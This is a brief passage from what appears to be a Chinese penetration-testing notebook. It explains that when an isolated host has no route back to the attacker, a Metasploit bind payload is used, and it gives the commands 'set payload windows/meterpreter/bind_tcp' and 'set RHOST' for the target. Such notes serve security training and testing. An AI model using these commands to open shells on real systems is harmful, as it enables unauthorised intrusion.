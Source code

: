	隔离主机一般与攻击机无双向路由，payload设置为bind让靶机监听。
	>set payload windows/meterpreter/bind_tcp
	>set RHOST 隔离机IP
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/369.png)
